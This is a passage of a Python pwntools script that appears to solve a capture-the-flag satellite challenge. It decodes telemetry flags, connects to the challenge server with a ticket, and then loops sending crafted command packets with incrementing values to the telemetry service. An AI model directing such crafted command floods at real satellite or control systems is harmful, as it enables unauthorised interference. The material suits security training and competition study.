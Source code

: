 ```python
  PAYLOAD_ENABLE = (data[0] & (1 << 0)) > 0
  FLAG_ENABLE    = (data[0] & (1 << 1)) > 0
  ADCS_ENABLE    = (data[0] & (1 << 2)) > 0
  RADIO1_ENABLE  = (data[0] & (1 << 3)) > 0
  RADIO2_ENABLE  = (data[0] & (1 << 4)) > 0

  data = data[1:]
  print(len(data))
  BAD_CMD_COUNT = struct.unpack(">I", data[:4])[0]

  return {
    "low_pwr_thresh": low_pwr_thresh,
    "voltage": voltage,
    "LOW_PWR_MODE": LOW_PWR_MODE,
    "BATT_HTR": BATT_HTR,
    "PAYLOAD_PWR": PAYLOAD_PWR,
    "FLAG_PWR": FLAG_PWR,
    "ADCS_PWR": ADCS_PWR,
    "RADIO1_PWR": RADIO1_PWR,
    "RADIO2_PWR": RADIO2_PWR,
    "PAYLOAD_ENABLE": PAYLOAD_ENABLE,
    "FLAG_ENABLE": FLAG_ENABLE,
    "ADCS_ENABLE": ADCS_ENABLE,
    "RADIO1_ENABLE": RADIO1_ENABLE,
    "RADIO2_ENABLE": RADIO2_ENABLE,
    "BAD_CMD_COUNT": BAD_CMD_COUNT,
  }


rv = remote("goose.satellitesabove.me", 5033)
rv.recvuntil(b"Ticket please:")
rv.send(b"ticket{delta76170foxtrot:GCOmAUq4Fz8K0PQ1qFpviGNJXkI0FmI2eIDZ9BB2EvbrZwD0EoKIt0af4wyrI0W7QA}\n")
v = rv.recvuntil(b"Telemetry Service running at ")
v = str(rv.recv(), encoding="utf8")

host, port = v.split(":")
port = int(port)

print("Connecting %s:%d" %(host, port))

r = remote(host, port)

data = b""

s = 0

def SendEnables():
  global s
  print("Sending enable %d" % s)
  for i in range(100):
    r.send(EncodeHeader2() + b"\x00\x0C" + struct.pack(">H", s)) # LW_PWR_THRES
    s += 1


while True:
  try:
    SendEnables()
    data = r.recv()
    # data += chunk
    print("Received %d bytes" %len(data))

    c_version, c_type, c_sechd, c_apid, c_gpflags, c_ssc, c_plen = DecodeHeader(data)
```